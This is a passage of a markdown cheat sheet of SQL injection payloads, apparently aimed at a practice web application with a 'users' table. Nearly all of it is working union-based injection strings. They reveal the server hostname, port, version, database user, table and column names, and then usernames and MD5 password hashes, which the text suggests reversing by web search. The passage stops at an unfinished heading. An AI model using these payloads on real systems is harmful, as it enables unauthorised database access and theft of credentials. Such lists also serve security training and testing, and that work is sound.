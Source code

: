 `' union select null, @@hostname#`

### Show port

`' union select null, @@port#`

### Concatenate more host information fields

`' union select null, concat(@@version, 0x0a, @@hostname, 0x0a, @@datadir, 0x0a, @@version_compile_os) #`

### Show DMBS username

`' union select null, user() #`

### Show all users and the database name 

Demonstrates joining a tautology query with a `database() query using the `union` command.

`' or 0=0 union select null, database() #`

### Show just the database name

Again demonstrates joining two queries with the union command. Both commands below are equivalent.

`' or 0=1 union select null, database() #`

`' union select null, database() # `

### Show all tables in the database. 

Note: the route's query is designed to return two fields, so we request `null` as the first field in our injection.

`' and 1=0 union select null, table_name from information_schema.tables #`

### Show all databases and tables

`' and 1=0 union select table_name, table_schema from information_schema.tables #`

### Display all the columns fields in the `information_schema` `user` table. 

The "surname" field in the rendered HTML result displays the field names of the database.

`' and 1=0 union select null, column_name from information_schema.columns where table_name = 'users' #`

### Display the user, password column 

Display the user, password column field contents in the `information_schema` user table. Reveals MD5 password hashes that then can be googled to reverse.

`' and 1=0 union select user, password from users #`

### Display firstname, lastname, username, password (all on one line)
